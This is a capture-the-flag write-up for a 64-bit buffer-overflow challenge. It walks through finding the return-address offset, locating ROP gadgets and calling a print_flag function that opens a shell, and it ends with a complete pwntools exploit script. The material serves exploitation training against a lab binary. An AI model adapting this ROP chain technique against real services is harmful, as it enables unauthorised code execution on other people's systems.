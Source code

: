 ![alt text](bof3.png)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 64bit mode.
- when reading the source code, the binary reads 0x100 bytes and the size of our buffer is 60, so we have a buffer overflow vulnerability.
- we have a print_flag function that calls system("/bin/bash") only if the first argument = 0xdeadbeef and the second argument = 0xc0febabe, so we have to use gadgets to
fill the arguments with the required values.
# Exploitation
- find the size of the buffer to overwrite the saved instruction pointer RIP
- find the address of print_flag function
- find gadget addresses : pop rdi and pop rsi
- chain our payload
## Overwriting the saved return pointer address
to overwrite the saved rip, we can use PEDA to create a pattern then find the offset.
- set a breakpoint at ret instruction in main
- pattern create 200
- examine the rsp x $rsp
- pattern offset "IAAe"
we can see that the offset to the saved rip is : 72
## Address of print_flag
inside gdb : 
- p print_flag
the function is at : 0x40121f 
## Gadgets
using ropper, we can find the wanted gadgets : 
- ropper --file task7 --search "pop rdi" #0x0000000000401323
- ropper --file task7 --search "pop ret" #0x0000000000401321
## Payload
```python
from pwn import *                                                                                                                                                                                                                               p = process("./task7")                                                                                                  
poprdi = 0x401323                                                                                                       
poprsi = 0x401321                                                                                                       
print_flag = 0x40121f                                                                                                                                                                                                                           payload = b""                                                                                                           
payload += b"A"*72                                                                                                      
payload += p64(poprdi)                                                                                                  
payload += p64(0xdeadbeef)                                                                                              
payload += p64(poprsi)                                                                                                  
payload += p64(0xc0febabe)                                                                                              
payload += p64(0)                                                                                                       
payload += p64(print_flag)                                                                                             
p.sendline(payload)                                                                                                     
p.interactive()
